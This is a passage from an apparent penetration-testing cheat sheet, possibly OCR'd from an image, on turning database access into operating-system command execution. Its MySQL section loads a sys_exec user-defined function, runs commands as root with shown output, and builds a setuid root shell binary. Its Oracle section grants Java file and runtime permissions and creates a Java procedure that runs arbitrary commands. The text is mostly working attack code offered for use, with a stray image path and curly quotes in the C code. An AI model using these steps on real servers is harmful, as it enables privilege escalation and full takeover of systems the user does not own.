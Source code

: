 On Linux:

```sql
use mysql;
create table npn(line blob);
insert into npn values(load_file('/home/npn/lib_mysqludf_sys.so'));
select * from npn into dumpfile '/usr/lib/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('id > /tmp/out; chown npn.npn /tmp/out');

npn@pwn:~$ cat /tmp/out
  uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)

// Create a shell, compile it, "chmod +s /tmp/shell" and get reverse shell
```

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
    setuid(0); setgid(0); system(“/bin/bash”);
}

```

```bash
gcc -o /tmp/shell /home/npn/shell.c
chmod +s /tmp/shell
```

## Oracle 

### RCE 

Add permissions (sqlPlus required): 
```sql
DECLARE
  l_schema VARCHAR2(30) := 'SYSTEM';
BEGIN
  DBMS_JAVA.grant_permission(l_schema, 'java.io.FilePermission', '<<ALL FILES>>', 'read ,write, execute, delete');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
  DBMS_JAVA.grant_permission(l_schema, 'SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
END;
/
```

Java code:
```sql
CREATE OR REPLACE AND RESOLVE JAVA SOURCE NAMED "pwn" AS
import java.lang.*;
import java.io.*;
 
public class pwn
{
 public static void cmd (String command) throws IOException
 {
     Runtime.getRuntime().exec(command);
 }
};
/
```

